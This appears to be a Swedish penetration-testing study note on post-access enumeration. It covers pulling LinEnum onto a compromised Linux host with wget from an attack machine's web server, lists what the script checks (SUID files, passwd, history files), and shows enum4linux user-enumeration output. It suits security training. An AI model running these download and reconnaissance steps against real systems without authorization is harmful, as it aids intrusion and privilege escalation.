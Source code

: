 # Kartläggning av ett system för att få reda på vad som går att utnyttja
### LinEnum
Det finns ett skript man kan köra på en burk man fått tillgång till för att ta reda på intressanta svagheter som går att utnyttja. Filen kan laddas ner här: https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh.

Ett sätt att få ner den till maskinen är att på sin attack-maskin starta en webserver från den katalog där skriptet ligger med kommandot `python3 -m http.server 8000` och sen från den angripna servern köra `wget [attack-maskinens-ip]:8000/LinEnum.sh; chmod +x LinEnum.sh`.

När man kör skriptet så listar den flera intressanta saker såsåom
* Information om kernel
* Känsliga filer som är läs eller skrivbara
* SUID-filer. Detta är filer som kan utnyttjas för att höja privilegierna. De tar helt enkelt rättigheterna för den som exekverar filen.
* Crontab
* Vilka skal som finns tillgängliga
* Vilka tjänster som finns installerade
* Vilka processer som körs

Detta är en sammanställning av allt det letar efter
``` bash
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled
### SYSTEM ##############################################
[-] Kernel information:
[-] Kernel information (continued):
[-] Specific release information:
[-] Hostname:
### USER/GROUP ##########################################
[-] Current user/group info:
[-] Users that have previously logged onto the system:
[-] Who else is logged on:
[-] Group memberships:
[-] It looks like we have some admin users:
[-] Contents of /etc/passwd:
[-] Super user account(s):
[-] Are permissions on /home directories lax:
### ENVIRONMENTAL #######################################
[-] Environment information:
[-] SELinux seems to be present:
[-] Path information:
[-] Available shells:
[-] Current umask value:
[-] umask value as specified in /etc/login.defs:
[-] Password and storage information:
### JOBS/TASKS ##########################################
[-] Cron jobs:
[-] Crontab contents:
[-] Anacron jobs and associated file permissions:
[-] When were jobs last executed (/var/spool/anacron contents):
[-] Systemd timers:
### NETWORKING  ##########################################
[-] Network and IP info:
[-] ARP history:
[-] Nameserver(s):
[-] Default route:
[-] Listening TCP:
[-] Listening UDP:
### SERVICES #############################################
[-] Running processes:
[-] Process binaries and associated permissions (from above list):
[-] /etc/init.d/ binary permissions:
[-] /etc/rc.d/init.d binary permissions:
[-] /lib/systemd/* config file permissions:
### SOFTWARE #############################################
[-] Sudo version:
[-] Apache version:
[-] Installed Apache modules:
### INTERESTING FILES ####################################
[-] Useful file locations:
[-] Can we read/write sensitive files:
[-] SUID files:
[-] SGID files:
[-] NFS config details: 
[-] All *.conf files in /etc (recursive 1 level):
[-] Current user's history files:
[-] Location and contents (if accessible) of .bash_history file(s):
[-] Location and Permissions (if accessible) of .bak file(s):
[-] Any interesting mail in /var/mail:
[-] Anything juicy in the Dockerfile:
[-] Anything juicy in docker-compose.yml:
### SCAN COMPLETE ####################################

```
## enum4linux
Enum4linux enumererar samba för att kartlägga användare. Kör det med följande
``` bash
enum4linux -a <IP>
```
Den kan då t.ex. returnera nåt sånt här
``` bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                              
                                                                                                                                                                                                         
S-1-22-1-1000 Unix User\kay (Local User)                                                                                                                                                                 
S-1-22-1-1001 Unix User\jan (Local User)

```